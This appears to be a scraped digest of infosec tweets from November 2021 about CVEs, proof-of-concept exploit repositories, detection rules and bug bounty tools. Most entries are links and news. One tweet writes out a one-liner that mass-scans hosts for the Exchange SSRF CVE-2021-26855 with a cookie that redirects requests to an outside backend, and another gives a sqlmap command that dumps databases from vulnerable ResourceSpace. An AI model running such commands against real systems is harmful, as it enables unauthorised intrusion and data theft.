

# infosec_au
**https://twitter.com/infosec_au/status/1465806290995740672 _at 2021-11-30 22:13:47_**
<blockquote>
The Assetnote security research team discovered a full-read SSRF vulnerability in Jamf Pro (post-authentication) a few months ago. https://t.co/mOaKcJHVUe (CVE-2021-39303 &amp; CVE-2021-40809). Tracing sinks to sources is always a valid strategy.
</blockquote>

* https://blog.assetnote.io/2021/11/30/jamf-ssrf/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>92</code></td>
<td>Favorites: <code>287</code></td>
</tr></table>

---

# HackerGautam
**https://twitter.com/HackerGautam/status/1465746218710183940 _at 2021-11-30 18:15:05_**
<blockquote>
CVE-2021-26855
Exchange Server SSRF is awesome! 🔥

One Liner ✅

cat target.txt| while read host do;do curl --insecure --path-as-is --silent "$host/owa/auth/x.js" --cookie "X-AnonResource=true; X-AnonResource-Backend=https://t.co/uj6I0mgZN2;";done
</blockquote>

* http://bugbounty.requestcatcher.com/ecp/default.flt?~3

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>65</code></td>
<td>Favorites: <code>209</code></td>
</tr></table>

---

# TheDFIRReport
**https://twitter.com/TheDFIRReport/status/1465660777063456774 _at 2021-11-30 12:35:34_**
<blockquote>
Detections 

IDS Sigs
ET WEB_SPECIFIC_APPS Possible Oracle WebLogic RCE Inbound M2 (CVE-2020-14882)
ET POLICY External Oracle T3 Requests Inbound
ET EXPLOIT Serialized Java Object Calling Common Collection Function

Sigma https://t.co/kJS2Nobt0y

Sandbox https://t.co/XUVSsrwY06
</blockquote>

* https://github.com/SigmaHQ/sigma/blob/master/rules/web/web_cve_2020_14882_weblogic_exploit.yml
* https://private.tria.ge/211117-c6qcgskwrr/static1/magic/3515ca0693a14d0e82fad59ba91ac6db

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>8</code></td>
</tr></table>

---

# Anastasis_King
**https://twitter.com/Anastasis_King/status/1465589814137430018 _at 2021-11-30 07:53:35_**
<blockquote>
CVE-2021-41379 : Hackers Exploiting New Windows Installer Zero-Day Exploit in the Wild

https://t.co/MMNVLTJ0Bo

The proof-of-concept (PoC) exploit, dubbed "InstallerFileTakeOver.

https://t.co/0z7be4N2t0
</blockquote>

* https://thehackernews.com/2021/11/warning-hackers-exploiting-new-windows.html
* https://github.com/klinix5/InstallerFileTakeOver

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1465249899788836865 _at 2021-11-29 09:22:53_**
<blockquote>
POC of Linux Kernel TIPC remote code execution (CVE-2021-43267) flaw has been disclosed https://t.co/afqB027kgf
</blockquote>

* https://securityonline.info/cve-2021-43267-poc/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>55</code></td>
</tr></table>

---

# Securityblog
**https://twitter.com/Securityblog/status/1465025436833005579 _at 2021-11-28 18:30:57_**
<blockquote>
GitHub - ohnonoyesyes/CVE-2021-24084: Windows MDM LPE https://t.co/XEpuqOLFV3
</blockquote>

* https://github.com/ohnonoyesyes/CVE-2021-24084

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>5</code></td>
<td>Favorites: <code>4</code></td>
</tr></table>

---

# xtremepentest
**https://twitter.com/xtremepentest/status/1464886416392048647 _at 2021-11-28 09:18:32_**
<blockquote>
OSCP Windows Privilege Escalation Mind🧠 Map.

This mind map will be useful for reference purposes when studying📖 or during your exams📝

⬇️Download it here👇:
https://t.co/uUHbAYC4wc https://t.co/kynO3osL7N
</blockquote>

* https://github.com/C0nd4/OSCP-Priv-Esc

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>50</code></td>
<td>Favorites: <code>139</code></td>
</tr></table>

---

# chompie1337
**https://twitter.com/chompie1337/status/1464343049568411649 _at 2021-11-26 21:19:23_**
<blockquote>
if you’re interested in seeing a code example how to go from VA to PTE to physical address, i show it here: https://t.co/6g2dQjuggC
</blockquote>

* https://github.com/chompie1337/SMBGhost_RCE_PoC/blob/master/exploit.py#L225

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>15</code></td>
<td>Favorites: <code>86</code></td>
</tr></table>

---

# pyn3rd
**https://twitter.com/pyn3rd/status/1463884409287806980 _at 2021-11-25 14:56:55_**
<blockquote>
I have updated two new cases of my paper &lt;Make JDBC Attack Brilliant Again&gt; in HITB Singapore this year. One is MySQL Connector/J XXE, the other is Jython JDBC JNDI injection.

https://t.co/jjWDRIKTjM
</blockquote>

* https://github.com/pyn3rd/my-presentation-slide/blob/master/Make_JDBC_Attack_Brilliant_Again_All.pdf

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>24</code></td>
<td>Favorites: <code>76</code></td>
</tr></table>

---

# blackhatcats
**https://twitter.com/blackhatcats/status/1463842977818857475 _at 2021-11-25 12:12:17_**
<blockquote>
cve-2021-41379 patch update failed. Researcher releases exploit for Windows EoP flaw.
https://t.co/H7dgXfA1rJ #poc
https://t.co/EBy0Sf5zcM #0day #code #cybersecurity #c+
</blockquote>

* https://github.com/klinix5/InstallerFileTakeOver
* https://www.helpnetsecurity.com/2021/11/24/cve-2021-41379/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# CyberWarship
**https://twitter.com/CyberWarship/status/1463785038680670208 _at 2021-11-25 08:22:03_**
<blockquote>
UAC-bypass-using-dll-injection: A small project to bypass UAC in windows 10/8/7 using dll injection technique 

#infosec #pentest #redteam
https://t.co/AN9Xd90OAN https://t.co/MzTIFG5ZZy
</blockquote>

* https://github.com/shubham0d/UAC-bypass-using-dll-injection

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>101</code></td>
<td>Favorites: <code>220</code></td>
</tr></table>

---

# ya_and_alone
**https://twitter.com/ya_and_alone/status/1463693972480704520 _at 2021-11-25 02:20:11_**
<blockquote>
CVE-2021-41765 ResourceSpace unauthorized SQL injection

ResourceSpace &lt;= 9.5

sqlmap --cookie 'upload_share_active=1' -u "http://127.0.0.1/pages/edit_fields/9_ajax/add_keyword.php?k=abcd" -p k --level=5 --risk3 --dbs --mysql

#vulnerability #infosec #BugBounty #bugbountytips
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>133</code></td>
<td>Favorites: <code>361</code></td>
</tr></table>

---

# cyb3rops
**https://twitter.com/cyb3rops/status/1463486973885169666 _at 2021-11-24 12:37:39_**
<blockquote>
Within the 48h since our rule for CVE-2021-41379 Windows LPE 0day exploit codes is active, we've noticed 30 different samples with more and less AV detection coverage

I you've found more, please let me know

rule info with links to each sample
https://t.co/SqUFOHvV1j https://t.co/Bz8dqOB5qV
</blockquote>

* https://valhalla.nextron-systems.com/info/rule/EXPL_Windows_InstallerFileTakeOver_CVE_2021_41379_Nov21_1

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>77</code></td>
<td>Favorites: <code>215</code></td>
</tr></table>

---

# ManasH4rsh
**https://twitter.com/ManasH4rsh/status/1463337730075627523 _at 2021-11-24 02:44:37_**
<blockquote>
Check these labs to build your XSS skills better:) There are labs on different scenarios and I found it really handy.

https://t.co/gDkYGiHo2q
</blockquote>

* https://github.com/tegal1337/0l4bs

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>64</code></td>
<td>Favorites: <code>169</code></td>
</tr></table>

---

# elhackernet
**https://twitter.com/elhackernet/status/1463292551503491078 _at 2021-11-23 23:45:05_**
<blockquote>
Exploit público para Microsoft Exchange ✉️ RCE 🔥
-  CVE-2021-42321 afecta a Exchange Server 2016 y Exchange Server 2019
PoC
https://t.co/sOzptT9q3T
Script comprobar estado de Exchange Server:
https://t.co/1MrstFiDos https://t.co/lC0QClwh8q
</blockquote>

* https://gist.github.com/testanull/0188c1ae847f37a70fe536123d14f398
* https://aka.ms/ExchangeHealthChecker

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>15</code></td>
</tr></table>

---

# tas_kmanager
**https://twitter.com/tas_kmanager/status/1463291069483921418 _at 2021-11-23 23:39:12_**
<blockquote>
Spent some time today at work playing with @msftsecurity Windows InstallerFileTakeOver LPE (CVE-2021-41379 bypass - https://t.co/jPZB2bTw71) and managed to create some detections on it. 

Detection will be based on Sysmon/SIEM, here we go... 1/n #threathunting #detection #dfir
</blockquote>

* https://github.com/klinix5/InstallerFileTakeOver

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>10</code></td>
<td>Favorites: <code>26</code></td>
</tr></table>

---

# netalexx
**https://twitter.com/netalexx/status/1463210349851779073 _at 2021-11-23 18:18:27_**
<blockquote>
PoC for Microsoft Exchange CVE-2021-42321 RCE bug

https://t.co/bvH5q0phbJ
</blockquote>

* https://gist.github.com/testanull/0188c1ae847f37a70fe536123d14f398

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1463198854287872011 _at 2021-11-23 17:32:46_**
<blockquote>
Expert released PoC exploit code for Microsoft Exchange CVE-2021-42321 RCE bug https://t.co/zriTKYOF5P
</blockquote>

* https://securityaffairs.co/wordpress/124917/hacking/microsoft-exchange-cve-2021-42321-rce-poc.html?utm_source=feedly&utm_medium=rss&utm_campaign=microsoft-exchange-cve-2021-42321-rce-poc

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>98</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1463117620522020868 _at 2021-11-23 12:09:58_**
<blockquote>
Researchers publish details of two vulnerabilities [CVE-2021-2145 and CVE-2021-2310] in #Oracle VM VirtualBox that could allow an attacker to compromise the hypervisor and cause a denial of service (DoS).

Read : https://t.co/UEE3EKN5bD

#infosec #cybersecurity
</blockquote>

* https://thehackernews.com/2021/11/researchers-detail-privilege-escalation.html

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>120</code></td>
<td>Favorites: <code>198</code></td>
</tr></table>

---

# akaclandestine
**https://twitter.com/akaclandestine/status/1463058892032811008 _at 2021-11-23 08:16:36_**
<blockquote>
#exploit
CVE-2021-41379:
Windows installer LPE 0day
https://t.co/pGie821VKq
</blockquote>

* https://github.com/klinix5/InstallerFileTakeOver

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# cKure7
**https://twitter.com/cKure7/status/1462928213928255492 _at 2021-11-22 23:37:20_**
<blockquote>
Another Microsoft Zero-Day exploit pertaining to bad fix of CVE-2021-41379.

https://t.co/ln94ZczCmr

Details: https://t.co/uNmYgXd5Gt
</blockquote>

* https://github.com/klinix5/InstallerFileTakeOver
* https://www.bleepingcomputer.com/news/microsoft/new-windows-zero-day-with-public-exploit-lets-you-become-an-admin/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# chompie1337
**https://twitter.com/chompie1337/status/1462884214827798540 _at 2021-11-22 20:42:30_**
<blockquote>
i am always curious to look at the various bypasses in Samsung LPE exploits. if selinux_enforcing is protected with RKP, you can always overwrite the avc_cache to bypass SELinux like I do here: 
https://t.co/auT7UcWnuR
</blockquote>

* https://github.com/chompie1337/s8_2019_2215_poc/blob/34f6481ed4ed4cff661b50ac465fc73655b82f64/poc/selinux_bypass.c#L16

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>106</code></td>
</tr></table>

---

# r00t_nasser
**https://twitter.com/r00t_nasser/status/1462810599184908296 _at 2021-11-22 15:49:59_**
<blockquote>
One Liner Bash Script To Scan local file inclusion Vulnerability At Metabase

subfinder -d https://t.co/RUKMtwRpni | httpx | nuclei -t ~/nuclei-templates/cves/2021/CVE-2021-41277.yaml

#infosec #BugBounty https://t.co/eXEQg87zSM
</blockquote>

* http://target.com

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>34</code></td>
</tr></table>

---

# JGamblin
**https://twitter.com/JGamblin/status/1462788514043633674 _at 2021-11-22 14:22:13_**
<blockquote>
Windows Local Privilege Escalation Post-Patch POC (CVE-2021-41379).  https://t.co/BiygHhFpE8
</blockquote>

* https://github.com/klinix5/InstallerFileTakeOver

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>4</code></td>
<td>Favorites: <code>4</code></td>
</tr></table>

---

# chenx3n
**https://twitter.com/chenx3n/status/1462724501058244608 _at 2021-11-22 10:07:51_**
<blockquote>
Here is my write-up to @intigriti's November XSS challenge : https://t.co/xAOQTGPvuu
Learned new tricks about CSP and JavaScript, and discovered CSTI attacks :p
Looking forward to next month's challenge !
</blockquote>

* https://github.com/malikDaCoda/CTFs-writeups/tree/master/web/intigriti/challenge-1121

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>18</code></td>
<td>Favorites: <code>48</code></td>
</tr></table>

---

# HackingTeam1
**https://twitter.com/HackingTeam1/status/1462712803933007872 _at 2021-11-22 09:21:23_**
<blockquote>
Bypass CVE-2021-41379 patch in Windows 11 and Server 2022 with November 2021.

https://t.co/NzasOja9gX
#windows #lpe #hacking2021
</blockquote>

* https://github.com/klinix5/InstallerFileTakeOver

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# cyb3rops
**https://twitter.com/cyb3rops/status/1462711685484101634 _at 2021-11-22 09:16:56_**
<blockquote>
You can detect the exploitation of Windows InstallerFileTakeOver LPE CVE-2021-41379 with the published PoC with events from the 'Application' Eventlog

Search for EventID 1033 and the keyword 'test pkg' https://t.co/ypqqfKTROK
</blockquote>

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>12</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>160</code></td>
<td>Favorites: <code>418</code></td>
</tr></table>

---

# KLINIX5
**https://twitter.com/KLINIX5/status/1462597892066136069 _at 2021-11-22 01:44:45_**
<blockquote>
Windows installer LPE 0day
https://t.co/eiXBWnuDuH
</blockquote>

* https://github.com/klinix5/InstallerFileTakeOver

<table><tr>
<td>Quotes: <code>32</code></td>
<td>Replies: <code>15</code></td>
<td>Retweets: <code>471</code></td>
<td>Favorites: <code>1080</code></td>
</tr></table>

---

# testanull
**https://twitter.com/testanull/status/1462363736815988744 _at 2021-11-21 10:14:18_**
<blockquote>
As many ppl requested, 
Here is the PoC of CVE-2021-42321, Exchange Post-Auth RCE
This PoC just pop mspaint.exe on the target, can be use to recognize the signature pattern of a successful attack event
https://t.co/mTbOFz94qM
</blockquote>

* https://gist.github.com/testanull/0188c1ae847f37a70fe536123d14f398

<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>297</code></td>
<td>Favorites: <code>716</code></td>
</tr></table>

---

# hakluke
**https://twitter.com/hakluke/status/1462031359434629124 _at 2021-11-20 12:13:33_**
<blockquote>
Just created a really basic Go tool that goes through a list of subdomains and tells you which ones resolve to internal IPv4 addresses.

Useful for escalating SSRF vulns.

https://t.co/BPuFvq1M5j
</blockquote>

* https://github.com/hakluke/hakfindinternaldomains

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>106</code></td>
<td>Favorites: <code>351</code></td>
</tr></table>

---

# 0x_Akoko
**https://twitter.com/0x_Akoko/status/1461957553378582531 _at 2021-11-20 07:20:17_**
<blockquote>
I've pushed a nuclei template to detect this misconfiguration An unauthenticated api endpoint requiring a URL parameter, with insufficient validation that lead to LFI. ( CVE-2021-41277 ).

https://t.co/shrTv2gr85

Source : https://t.co/ByzKbMFX8m

#bugbounty #bugbountytips
1/2 https://t.co/r72gDHNYWt
</blockquote>

* https://github.com/projectdiscovery/nuclei-templates/pull/3171
* https://github.com/metabase/metabase/security/advisories/GHSA-w73v-6p7p-fpfr

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>96</code></td>
<td>Favorites: <code>247</code></td>
</tr></table>

---

# ddouhine
**https://twitter.com/ddouhine/status/1461653955725955076 _at 2021-11-19 11:13:53_**
<blockquote>
Upcoming Ubuntu (14.04 - 20.10) LPE exploit in #metasploit (CVE-2021-3493) 

Module by @tychos_moose 
Vulnerability reported by @SecuriTeam_SSD 

https://t.co/85OM8dHGWz
</blockquote>

* https://github.com/rapid7/metasploit-framework/pull/15822

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>3</code></td>
<td>Favorites: <code>3</code></td>
</tr></table>

---

# TimoHirvonen
**https://twitter.com/TimoHirvonen/status/1461647465019498498 _at 2021-11-19 10:48:06_**
<blockquote>
@tiraniddo Just wanted to thank you for https://t.co/QhtqPWfbcz. I found an unauthenticated RCE as SYSTEM this week and your tool made exploiting it a breeze :)
</blockquote>

* https://github.com/tyranid/ExploitRemotingService

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>73</code></td>
</tr></table>

---

# testanull
**https://twitter.com/testanull/status/1461605405251883009 _at 2021-11-19 08:00:58_**
<blockquote>
Just published detailed analysis of Microsoft Exchange Deserialization to RCE (CVE-2021-42321), which's also found exploited in Tianfu Cup.
English version from @peterjson 
PoC is not provided, 
Have fun!
https://t.co/H9Q2Q5Gbpw
</blockquote>

* https://peterjson.medium.com/some-notes-about-microsoft-exchange-deserialization-rce-cve-2021-42321-110d04e8852

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>185</code></td>
<td>Favorites: <code>421</code></td>
</tr></table>

---

# bad_packets
**https://twitter.com/bad_packets/status/1461428446660153345 _at 2021-11-18 20:17:48_**
<blockquote>
Mass scanning activity detected from the following hosts targeting Fortinet VPN servers vulnerable to unauthenticated arbitrary file read (CVE-2018-13379) leading to disclosure of usernames and passwords in plaintext.
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>50</code></td>
</tr></table>

---

# AkashHamal0x01
**https://twitter.com/AkashHamal0x01/status/1461205450146271238 _at 2021-11-18 05:31:41_**
<blockquote>
Prototype Pollution Scanners:

1. PPScan =&gt; browser extension for finding websites vulnerable to prototype pollution 

link: https://t.co/Ox5jVxI1zA
2. ppmap =&gt; escalates prototype pollution to xss

link: https://t.co/BPc6jhMbsQ

check below..

#bugbountytips #bugbountytip
</blockquote>

* https://github.com/msrkp/PPScan
* https://github.com/kleiton0x00/ppmap

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>84</code></td>
<td>Favorites: <code>204</code></td>
</tr></table>

---

# HolyBugx
**https://twitter.com/HolyBugx/status/1461045641979781127 _at 2021-11-17 18:56:40_**
<blockquote>
Got my first CVE with the CVSS Score of 9.9 Critical. 

It was an interesting URL validation case that led to LFI and was found via collaboration with some fellow hackers.

More Info:
https://t.co/aqRO0dBchN
</blockquote>

* https://github.com/metabase/metabase/security/advisories/GHSA-w73v-6p7p-fpfr

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>40</code></td>
</tr></table>

---

# AkashHamal0x01
**https://twitter.com/AkashHamal0x01/status/1460902936662315009 _at 2021-11-17 09:29:37_**
<blockquote>
Sometime it's hard to validate and exploit Blind SQL injections and sometimes even u have 0 knowledge of sqli u can use this tool to automate blind sqli detection and exploitation!

Link: https://t.co/cajWdtiEvT
#bugbountytips #bugbounty #bugbountytip

BBQSQL GOT UR BACK ;)
</blockquote>

* https://github.com/CiscoCXSecurity/bbqsql

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>74</code></td>
</tr></table>

---

# OPOSEC
**https://twitter.com/OPOSEC/status/1460880392064487424 _at 2021-11-17 08:00:01_**
<blockquote>
SSTI and RCE in Confluence Server via Widget Connector (CVE-2019-3396). https://t.co/Om5gwqrKFB (+) More: https://t.co/qW4BQeywvJ | https://t.co/6ssSwllcVK (+) PoC: https://t.co/m9KqAb18JW #MustSee #269 (2019)
</blockquote>

* http://bit.ly/2X5eTCX
* https://paper.seebug.org/884/
* http://bit.ly/2UTG16p
* https://github.com/pyn3rd/CVE-2019-3396

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# m19o__
**https://twitter.com/m19o__/status/1460567106177703937 _at 2021-11-16 11:15:08_**
<blockquote>
I'm very happy to announce that I discovered my first 0day vulnerability and I got CVE-2021-24970, Stay tuned for the writeup. 

References : https://t.co/5rcmER5r7a
                       https://t.co/8vFl5LnxSR

#security #securityresearch #cybersec  #cybersecurity #0day #cve https://t.co/BRYeAHWWPK
</blockquote>

* http://shorturl.at/girCS
* http://shorturl.at/lorD6

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>41</code></td>
</tr></table>

---

# hack_git
**https://twitter.com/hack_git/status/1460492539807641600 _at 2021-11-16 06:18:50_**
<blockquote>
#CVE-2021-43616: NPM &lt; 8.1.3 CI Command package-lock.json #RCE

https://t.co/6NumzE8eoZ
https://t.co/Hc99xlm4fq

#exploit https://t.co/2aH6NeJowo https://t.co/OULA362Os2
</blockquote>

* https://github.com/npm/cli/issues/2701
* https://github.com/icatalina/CVE-2021-43616
* https://t.me/hackgit/1942

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# ya_and_alone
**https://twitter.com/ya_and_alone/status/1460440852279484424 _at 2021-11-16 02:53:27_**
<blockquote>
Bypassing #CVE-2021-34484  Microsoft's privilege escalation vulnerability patch

PoC:https://t.co/vnYb6MEHKg

#BugBounty #bugbountytips #infosec #infosecurity
</blockquote>

* https://github.com/klinix5/ProfSvcLPE

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>4</code></td>
</tr></table>

---

# KLINIX5
**https://twitter.com/KLINIX5/status/1460339550904070144 _at 2021-11-15 20:10:55_**
<blockquote>
Anyway, Windows 11 Device Management Enrollment Service 0day LPE
Here's your PoC - 
https://t.co/8lweiFeSw3
This will drop you a SYSTEM shell, just follow the demo.
</blockquote>

* https://github.com/klinix5/WindowsMDMLPE

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>87</code></td>
<td>Favorites: <code>192</code></td>
</tr></table>

---

# AttackerKb
**https://twitter.com/AttackerKb/status/1460293995213504519 _at 2021-11-15 17:09:54_**
<blockquote>
Patch and PoC analysis for Oracle WebLogic Server RCE CVE-2021-2394 https://t.co/wJGx7YfGj1
</blockquote>

* https://attackerkb.com/assessments/9ec02377-c981-4ff5-a0f4-265056daf3e4

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>48</code></td>
</tr></table>

---

# doctrineproject
**https://twitter.com/doctrineproject/status/1460289036883484675 _at 2021-11-15 16:50:11_**
<blockquote>
Security Adisory: Users of doctrine/dbal 3.0 - 3.1.3 are advised to upgrade to doctrine/dbal 3.1.4 immmediately to fix a critical SQL injection vulnerability.

https://t.co/HnWaD4CkQk
</blockquote>

* https://github.com/doctrine/dbal/security/advisories/GHSA-r7cj-8hjg-x622

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>90</code></td>
<td>Favorites: <code>70</code></td>
</tr></table>

---

# hack_git
**https://twitter.com/hack_git/status/1460265854097055744 _at 2021-11-15 15:18:04_**
<blockquote>
CVE-2021-34484: #Windows User Profile Service 0day #LPE
https://t.co/ZF3sZ4KjtY

#PoC
https://t.co/AmBHqfnlLO https://t.co/Ku3VEnp0Yw https://t.co/0ttMxQVAOM
</blockquote>

* https://github.com/klinix5/ProfSvcLPE/blob/main/write-up.docx
* https://github.com/klinix5/ProfSvcLPE/tree/main/DoubleJunctionEoP
* https://t.me/hackgit/1938

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>3</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# waiha8
**https://twitter.com/waiha8/status/1460019776374571010 _at 2021-11-14 23:00:15_**
<blockquote>
“Catalin Cimpanu on Twitter: "PoC released for CVE-2021-30657, a former macOS zero-day abused by the Shlayer malware https://t.co/W7DYifFeFK Th… https://t.co/2yjwYMmbLE"” https://t.co/NNkRZe8Hfh
</blockquote>

* https://github.com/shubham0d/CVE-2021-30657
* https://twitter.com/i/web/status/1459754969033175040
* https://htn.to/HH8ecghsKi

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# CyberWarship
**https://twitter.com/CyberWarship/status/1459832744557649923 _at 2021-11-14 10:37:03_**
<blockquote>
Gopherus

If you know a place which is SSRF vulnerable then, this tool will help you to generate Gopher payload for exploiting SSRF to gain RCE

#infosec #pentest #bugbountytip 
https://t.co/K51125CoN6 https://t.co/Up1h8ijsKD
</blockquote>

* https://github.com/tarunkant/Gopherus

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>59</code></td>
<td>Favorites: <code>149</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1459754969033175040 _at 2021-11-14 05:28:00_**
<blockquote>
PoC released for CVE-2021-30657, a former macOS zero-day abused by the Shlayer malware

https://t.co/sC5CTgtE10

This is the second PoC, after the one released by @patrickwardle earlier this year: https://t.co/ttRBn9B5kY
</blockquote>

* https://github.com/shubham0d/CVE-2021-30657
* https://objective-see.com/blog/blog_0x64.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>51</code></td>
<td>Favorites: <code>120</code></td>
</tr></table>

---

# Cyb3rWard0g
